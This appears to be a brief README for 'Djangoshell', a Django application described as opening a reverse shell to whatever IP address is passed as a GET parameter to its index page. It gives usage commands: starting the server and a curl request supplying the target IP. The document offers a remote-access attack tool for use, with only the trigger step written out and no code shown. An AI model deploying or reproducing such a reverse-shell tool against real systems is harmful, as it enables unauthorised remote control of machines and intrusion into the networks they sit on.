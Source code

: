 # Djangoshell

A simple Django application that returns a reverse shell when deployed to the IP that is passed as a GET parameter to index.

## Usage

```
python3 index.py runserver
curl http://djangoshell/?ip=127.0.0.1
```
